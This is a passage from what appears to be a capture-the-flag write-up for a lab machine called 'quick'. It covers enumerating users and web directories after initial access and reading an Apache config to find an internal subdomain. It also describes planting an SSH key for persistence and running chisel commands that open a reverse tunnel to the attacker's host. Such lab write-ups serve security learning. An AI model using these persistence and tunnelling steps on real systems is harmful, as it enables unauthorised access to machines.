 We can grab the user flag now.&#x20;

## Privilege Escalation

The shell can be upgraded by dropping our public key into the SSH directory.

### Printers

There was another user `srvadm` present on the machine:

```
sam@quick:/home$ ls -la
total 16
drwxr-xr-x  4 root   root   4096 Mar 20  2020 .
drwxr-xr-x 24 root   root   4096 Dec 14  2021 ..
drwxr-xr-x  7 sam    sam    4096 May  2 07:47 sam
drwxr-xr-x  6 srvadm srvadm 4096 Mar 20  2020 srvadm
```

It also appears there are other websites present on the machine:

```
sam@quick:/var/www$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Dec 14  2021 .
drwxr-xr-x 14 root root 4096 Dec 14  2021 ..
drwxr-xr-x  2 root root 4096 Dec 14  2021 html
drwxrwxrwx  2 root root 4096 Dec 14  2021 jobs
drwxr-xr-x  6 root root 4096 Dec 14  2021 printer
```

We can find out who is running this website by reading the `apache2` configuration files:

```
sam@quick:/var/www/printer$ cat /etc/apache2/sites-available/000-default.conf
<VirtualHost *:80>
        AssignUserId srvadm srvadm
        ServerName printerv2.quick.htb
        DocumentRoot /var/www/printer
</VirtualHost>
```

So there's another subdomain present. However, it seems that we cannot access it from our machine and we need some port forwarding to do this. For some reason, when we forward port 80, we cannot visit the site, but forwarding port 9001 works in visiting it.

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
./chisel client 10.10.14.13:5555 R:9001:127.0.0.1:9001
```

Then we need to add `printerv2.quick.htb` to our hosts file under `localhost`. Then, we can visit it and see a login page.
